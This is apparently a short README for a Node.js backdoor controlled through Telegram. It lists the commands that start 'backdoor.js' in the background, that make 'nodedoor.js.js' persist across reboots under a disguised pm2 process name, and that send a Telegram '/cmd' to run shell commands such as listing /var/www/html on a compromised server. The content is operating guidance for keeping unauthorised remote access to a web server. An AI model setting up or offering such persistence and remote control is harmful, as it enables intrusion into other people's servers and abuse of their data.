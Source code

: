 # js node


</h1>
<h4 align="center">comand list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `node` value
```
node backdoor.js
nohup node backdoor.js &
another comand 

npm install -g pm2
pm2 start nodedoor.js.js --name sakarepmu
pm2 save
pm2 startup


telegram comand Exe
/cmd ls -lah /var/www/html or ./etc

```
